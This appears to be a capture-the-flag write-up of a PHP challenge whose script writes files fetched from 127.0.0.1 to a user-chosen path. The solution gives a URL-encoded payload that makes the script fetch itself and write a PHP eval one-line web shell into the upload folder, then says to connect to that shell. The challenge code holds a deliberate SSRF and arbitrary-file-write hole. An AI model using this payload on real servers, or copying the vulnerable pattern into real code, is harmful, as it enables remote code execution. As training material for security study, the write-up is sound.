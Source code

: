 # Challenge
```php 
<?php
if(isset($_GET) && !empty($_GET)){
    $url = $_GET['file'];
    $path = 'upload/'.$_GET['path'];
}else{
    show_source(__FILE__);
    exit();
}
 
if(strpos($path,'..') > -1){
    die('SYCwaf!');
}
 
if(strpos($url,'http://127.0.0.1/') === 0){
    file_put_contents($path, file_get_contents($url));
    echo "console.log($path update successed!)";
}else{
    echo "Hello.Geeker";
}
```

# Solution

payload

```
?path=lemon.php&file=http%3A%2f%2f127.0.0.1%2fphp_challenge%2f31.php%3Fpath%3D%253C%253Fphp%2520@eval%2528%2524_POST%255Bx%255D%2529%253B%253F%253E%26file%3Dhttp%3A%2f%2f127.0.0.1%2fphp_challenge%2f31.php
```

注入一句话，访问 /uploads/lemon.php 连接

# Refference
+ [第七季极客大挑战writeup | Syclover Team](http://blog.sycsec.com/?p=894)

https://blog.spoock.com/2016/11/14/sycsec-writeup/